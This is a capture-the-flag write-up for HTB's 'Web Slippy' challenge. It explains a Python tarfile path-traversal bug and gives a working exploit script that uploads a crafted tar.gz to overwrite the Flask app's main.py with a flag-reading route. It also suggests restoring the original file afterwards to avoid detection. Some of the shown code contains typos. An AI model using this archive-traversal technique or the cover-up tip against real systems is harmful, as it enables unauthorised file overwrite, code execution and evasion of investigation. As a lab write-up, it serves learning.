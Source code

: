 ```yaml
---
title: "HTB UNI CTF : Web Slippy"
date: 2021-11-22T15:16:32-05:00
tags:
    - CTF-Writeups
---
```



![](/web_slippy/ChallengeDescription.png)


## Analyze
For this challenge we were given the source file of the site, looking at the website we can see that it wants a tar.gz file as the input.

![](/web_slippy/Website.png)

The directory tree of the source code as follow.

```
./challenge
├── application
│   ├── blueprints
│   │   └── routes.py
│   ├── config.py
│   ├── main.py
│   ├── static
│   │   ├── archives
│   │   ├── css
│   │   │   ├── bootstrap.min.css
│   │   │   └── main.css
│   │   ├── images
│   │   │   ├── card-body2.png
│   │   │   ├── card-btm2.png
│   │   │   ├── card-top2.png
│   │   │   └── upload-doc.png
│   │   └── js
│   │       ├── bootstrap.min.js
│   │       ├── jquery-3.6.0.min.js
│   │       ├── main.js
│   │       └── TweenMax.min.js
│   ├── templates
│   │   └── index.html
│   └── util.py
├── flag
└── run.py
```

We can see that the flag file is in the same directory as the run.py

So I am assuming that we have to figure out a way to read the flag file.

***Util.py***
```
import functools, tarfile, tempfile, os
from application import main

generate = lambda x: os.urandom(x).hex()

def extract_from_archive(file):
    tmp  = tempfile.gettempdir()
    path = os.path.join(tmp, file.filename)
    file.save(path)

    if tarfile.is_tarfile(path):
        tar = tarfile.open(path, 'r:gz')
        tar.extractall(tmp)

        extractdir = f'{main.app.config["UPLOAD_FOLDER"]}/{generate(15)}'
        os.makedirs(extractdir, exist_ok=True)

        extracted_filenames = []

        for tarinfo in tar:
            name = tarinfo.name
            if tarinfo.isreg():
                filename = f'{extractdir}/{name}'
                os.rename(os.path.join(tmp, name), filename)
                extracted_filenames.append(filename)
                continue

            os.makedirs(f'{extractdir}/{name}', exist_ok=True)

        tar.close()
        return extracted_filenames

    return False
```

This is the code that is used to extract the given tar file.

Let's examine this code a bit further.

```
generate = lambda x: os.urandom(x).hex()
```
It is used to generate a random number of the length x. Another way of writing this would be.

```
def generate(x):
	return os.urandom(x).hex()

```

```
		extractdir = f'{main.app.config["UPLOAD_FOLDER"]}/{generate(15)}'
        os.makedirs(extractdir, exist_ok=True)
```

So here they use the generate to create a new folder to avoid files to collide when they have same name.


```
➜  application git:(main) ✗ cat config.py

from application.util import generate
from os.path import abspath

class Config(object):
    SECRET_KEY = generate(50)
    UPLOAD_FOLDER = '/app/application/static/archives'

class ProductionConfig(Config):
    pass

class DevelopmentConfig(Config):
    DEBUG = True

class TestingConfig(Config):
    TESTING = True

```

We can see that the tar file gets extracted at path `/app/application/static/archives/{somerandom}/`

We also know that the flag is at `/app/`


## Recon

https://bugzilla.redhat.com/show_bug.cgi?id=263261

By searching up on the internet, I found this cool bug in the tar file library in python.

After reading this for the first time, I thought I could use the `../../../flag` as my file name and the download the flag. Seems pretty simple right?

Well Not really.

The ```os.rename()``` overrides the existing file in the directory.

## Exploit

For the exploit, I thought of overriding the `main.py` file and adding a API endpoint that opens the flag and returns it.

```
rom flask import Flask, jsonify
from application.blueprints.routes import web, api

app = Flask(__name__)
app.config.from_object('application.config.Config')

app.register_blueprint(web, url_prefix='/')
app.register_blueprint(api, url_prefix='/api')

@app.errorhandler(404)
def not_found(error):
    return jsonify({'error': 'Not Found'}), 404

@app.errorhandler(403)
def forbidden(error):
    return jsonify({'error': 'Not Allowed'}), 403

@app.errorhandler(400)
def bad_request(error):
    return jsonify({'error': 'Bad Request'}), 400

@app.route('/flag')
def flag():
    file = open('/app/flag', 'r')
    return f.read()
```
This is what the new main file will look like.

If we wanted to be undetected, we can upload the actual main.py file after we get the flag, so that they won't figure out where we got the flag from.



```
import tarfile, requests

zpath = "../../../main.py"


tf = tarfile.open("payload.tar.gz", "w:gz")
tf.add('main.py', zpath)
tf.close()



url = "http://64.227.36.32:32187/api/unslippy"

files = {"file": open('payload.tar.gz', 'rb')}

r = requests.post(url, files=files)

flag = requests.get("http://64.227.36.32:32187/flag")

print(flag.text)
```

I wrote a simple script that will take the main.py file and add directory trasverasl stuffs infront of the file, and creates a tar.gz file.

Then it will upload the file to the server, later it will use the /flag endpoint to extract the flag.

```
HTB{i_slipped_my_way_to_rce}
```


